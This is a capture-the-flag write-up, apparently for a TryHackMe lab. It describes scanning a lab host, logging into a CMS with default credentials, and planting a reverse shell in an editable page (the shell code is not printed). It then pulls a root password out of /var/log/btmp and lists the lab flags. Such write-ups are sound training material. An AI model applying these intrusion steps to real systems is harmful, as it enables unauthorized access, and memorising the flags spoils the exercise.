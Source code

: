# EASY

<br />
<br />

#### 1. Scanning

```
nmap -A -T4 10.10.163.83                                              
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-21 04:51 EST
Verbosity Increased to 1.
Stats: 0:00:42 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 04:52 (0:00:08 remaining)
Completed Service scan at 04:52, 90.11s elapsed (6 services on 1 host)
NSE: Script scanning 10.10.163.83.
Initiating NSE at 04:52
Completed NSE at 04:53, 11.78s elapsed
Initiating NSE at 04:53
Completed NSE at 04:53, 1.11s elapsed
Initiating NSE at 04:53
Completed NSE at 04:53, 0.00s elapsed
Nmap scan report for 10.10.163.83
Host is up (0.087s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:75:95:c7:6d:f4:92:a0:0e:1e:60:b8:be:4d:92:b1 (RSA)
|   256 a2:11:fb:e8:c5:c6:f8:98:b3:f8:d3:e3:91:56:b2:34 (ECDSA)
|_  256 72:19:b7:04:4c:df:18:be:6b:0f:9d:da:d5:14:68:c5 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST
| http-robots.txt: 1 disallowed entry 
|_/vbcms
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: VeryBasicCMS - Home
8001/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: My Website
|_Requested resource was /?page=home.php
8002/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Learn PHP
9999/tcp open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Sun, 21 Feb 2021 09:51:28 GMT
|     Content-Length: 0
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request
```

There is `/8000/vbcms` available with a login page, so logically I should try to run hydra and look for password as `admin`. 

This time, it happens that `admin:admin` is a correct pair, so no bruteforcing is needed :)

<br />

#### 2. VBCMS - SERV1

once I'm logged in, there are three sections, each one can be modified, so it's an easy way to insert there a reverse shell and log in to a machine directly.

I edit About Us and fill in with pentest monkey's reverse shell, save it, run netcat and open site in a browser. I am in.

First hint leads to a file with a flag encoded in base64, which is in `/usr/games/fortune`

```
┌──(kali㉿kali)-[~/Documents/CTFTOOLS]
└─$ echo "VEhNe05HSTROems0T0dJM01ERTRORFV6TldZd05qTXlaalkxfQo=" | base64 -d > serv1
```
after decoding I get:                                               

```
┌──(kali㉿kali)-[~/Documents/CTFTOOLS]
└─$ cat serv1       
THM{NGI4Nzk4OGI3MDE4NDUzNWYwNjMyZjY1}
```

and after entering in Hackerrank gives another to enter on THM:

`BACK2THM{a77bc034424d18cc07567eb79c5e205c}`

<br />

#### 3. SERV 2 flag

I check hint which says to open `/var/lib/rary` which gives:

`THM{Bet_You're_Glad_This_Is_Not_A_Hash}`

and typed in Hackerrank:

`BACK2THM{84c31ff2c6f1b3b793fb919dc19ebbb7}`

<br />

#### 4. SERV3 flag

Same story as previously.

#### 5. SERV4 flag

Once again, all is in a hint:

```
$ cat /var/www/serv4/index.php
THM{YmNlODZjN2I2ZDEwM2FlMDA5Y2RiYzZh}
```

#### 6. ROOT

First of all I was trying to seach for `utmp` exploit and it lead me to `tmux`, however it was a rabbit hole.

The real solution is very simple. Our user is a part of `utmp` group so I thought about searching files which belong to that group and got three:

```
$ find / -type f -group utmp 2>/dev/null
/usr/lib/x86_64-linux-gnu/utempter/utempter
/var/log/btmp
/run/utmp
```

One of them has root's pass:

```
serv1@web-serv:/$ cat /var/log/btmp
cat /var/log/btmp
)	ssh:nottyrootZjc2ZWEx192.168.1.142ǯ*
```

which is `Zjc2ZWEx`

<br />

Therefore, I su root and read a flag:

```
root@web-serv:/# cat /root/root.txt
cat /root/root.txt
THM{OWQyMGRlNWM0NjYzN2NmM2MxMDNkODgx}
```
from H1

`BACK2THM{ff315ec593432fb5d85726c34530c5c6}`
